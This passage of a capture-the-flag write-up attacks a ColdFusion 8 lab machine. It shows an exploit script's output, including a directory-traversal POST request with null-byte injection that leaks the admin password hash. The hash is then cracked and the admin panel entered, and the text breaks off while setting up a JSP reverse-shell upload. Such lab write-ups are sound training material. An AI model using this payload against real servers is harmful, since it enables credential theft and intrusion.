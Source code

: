 {{< image src="/img/arc2.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

*Administrator* is what calls my attention the most so let's check it:

{{< image src="/img/arc3.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It turns out to be an instance of **ColdFusion**:

# Password leakage

I had never seen this interface so let's start by looking for potential exploits we can use:

{{< image src="/img/arc4.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

This looks interesting, it's supposed to leak admin's password:

```bash
❯ python2 coldfusion_shell.py 1 10.129.76.192 8500
1
------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm ../../../../../../../../../../../../../../../ColdFusion8/lib/password.properties
Posted: POST /CFIDE/wizards/common/_logintowizard.cfm HTTP/1.1
Host: 10.129.76.192
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 94

locale=%00../../../../../../../../../../../../../../../ColdFusion8/lib/password.properties%00a
Password found after 1 attempts
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \Q>[K\=XP

password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
```

It works, apparently it does a directory path traversal and injects a null bite in the url which triggers the website to return the admin's encrypted password.

Now we have to decrypt it. In this cases **crackstation.net** is very useful:

{{< image src="/img/arc5.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

There we have it! Now we can login:

{{< image src="/img/arc6.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

**```Foothold```**

Inside a **ColdFusion** admin panel we can get to upload a malicious jsp file that we use to get a reverse shell once we open it. 

First we have to find the path where the file should be uploaded to:
